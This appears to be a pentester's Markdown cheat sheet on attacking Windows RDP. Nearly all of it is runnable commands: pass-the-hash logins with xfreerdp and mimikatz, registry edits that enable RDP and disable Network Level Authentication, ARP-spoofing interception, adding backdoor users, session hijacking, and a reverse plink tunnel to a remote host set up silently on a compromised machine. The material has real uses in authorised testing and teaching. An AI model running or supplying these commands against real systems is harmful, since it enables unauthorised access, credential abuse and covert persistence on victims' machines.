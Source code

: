 # Remote Desktop Protocol (RDP) 

TCP 3389

Beware - On Windows 11, [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication) is enabled by default for all RDP connections.

```bash
remmina
xfreerdp /u:$username /p:$Password /v:$IP
rdesktop $ip
```

## Enumerating RDP

Modified from HackTricks - [[Nmap-Cheatsheet]], [[Nmap-AllTheScripts]]
```bash
sudo nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 192.168.223.119 -e $interfaceForIdiotProofing -oA nmap/rdpenum
```

[[Impacket-Cheatsheet]]
```bash
impacket-rdp_check
# Impacket v0.11.0 - Copyright 2023 Fortra
# usage: rdp_check.py [-h] [-hashes LMHASH:NTHASH] target
# Test whether an account is valid on the target host using the RDP protocol.
# positional arguments: target [[domain/]username[:password]@]<targetName or address>
# options:
-h, --help # show this help message and exit
# authentication:
-hashes $LMHASH:$NTHASH # NTLM hashes, format is LMHASH:NTHASH
```

## Exploitation

[[Crackmapexec-Cheatsheet]]
```bash
# Remotely enable RDP using CrackMapExec
sudo crackmapexec smb $IP -u $user -p $password -M rdp -o ACTION=enable
```
[[Pass-The-Hash]] attacks with RDP. For non domain-joined machines `rdesktop` won't connect; use `xfreerdp` instead, which supports NLA for non domain-joined machines. `xfreerdp` allows for  [[Pass-The-Hash]]:

```bash
# RDP through Pass-the-Hash
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:server.domain.local

xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml

# RDP using mimikatz and PtH
sekurlsa::pth /user:user /domain:domain.local /ntlm:xxxxxxxxxxxxxxx /run:"mstsc.exe /restrictedadmin"
```

`cmd.exe`
```bash
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

# Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
`powershell.exe`
```powershell
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

# Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
[[MITM-Attacks]]
```bash
# You can try to attack existing RDP connections
# seth.sh is a great tool for that
# It performs an ARP spoofing attack
./seth.sh eth0 <IP attacker> <IP victim> <Gateway | Host>
```
## Post NT System compromise

Add additional users
```powershell
net localgroup "Remote Desktop Users" $UserLoginName /add
```

Get session information
```powershell
query user
```

[[Mimikatz-Cheatsheet]]
```c
ts::sessions        // Get sessions
ts::remote /id:2    // Connect to the session
```

Combining stickykeys or utilman techniques *you will be able to access a administrative CMD and any RDP session anytime*. *RDPs that have been backdoored with one of these techniques already with: [Stick  Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)*

Shadow Attack - [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)

## Tunnelling Remote Desktop Protocol (RDP) 

Tunnelling Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel as method of bypassing deep packet inspection from [GitHub OlivierLaflamme/Cheatsheet-God Cheatsheet_Networking.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_Networking.txt). From target Windows machine add required firewall rules without prompting the user:
```powershell
netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes
netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000
netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080
netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079

# Start the http tunnel client
httptunnel_client.exe

# Create HTTP reverse shell by connecting to localhost port 3000
plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000
```

## References

[Wikipedia Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Network_Level_Authentication)
[haax.fr RDP Exploitation](https://cheatsheet.haax.fr/windows-systems/exploitation/rdp_exploitation/)
[HackTricks - Pentesting RDP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)
[AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)
[Stick  Keys Slayer](https://github.com/linuz/Sticky-Keys-Slayer)
[GitHub OlivierLaflamme/Cheatsheet-God Cheatsheet_Networking.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_Networking.txt)